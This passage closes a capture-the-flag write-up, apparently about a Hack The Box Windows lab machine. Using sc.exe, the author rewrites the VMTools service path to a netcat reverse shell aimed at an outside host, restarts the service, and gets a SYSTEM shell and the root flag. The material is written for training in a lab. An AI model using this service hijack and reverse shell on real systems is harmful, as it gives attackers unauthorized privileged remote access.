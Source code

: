 With **sc.exe** we can try to create or modify a service:
```bash
*Evil-WinRM* PS C:\Windows\Temp> sc.exe config VMTools binPath="C:\Windows\Temp\nc.exe -e cmd 10.10.14.161 334"
[SC] ChangeServiceConfig SUCCESS
```

We managed to change the **path** to **VMTools**, so now once it's started it will execute the netcat.

Now we proceed to restart this service after we have set up our listener:
```bash
*Evil-WinRM* PS C:\Windows\Temp> sc.exe stop VMTools

SERVICE_NAME: VMTools
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Windows\Temp> sc.exe start VMTools
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion
```

It looks like the service crashed but in the listener we get the connection:
```bash
❯ nc -lvnp 334
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::334
Ncat: Listening on 0.0.0.0:334
Ncat: Connection from 10.129.78.30.
Ncat: Connection from 10.129.78.30:52344.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
 whoami
nt authority\system
```

As usual, inside Administrator's desktop we find **root.txt**: 
```bash
C:\Users\Administrator\Desktop>type root.txt
74ef5d962484b51bc5**************
```

See you next time!
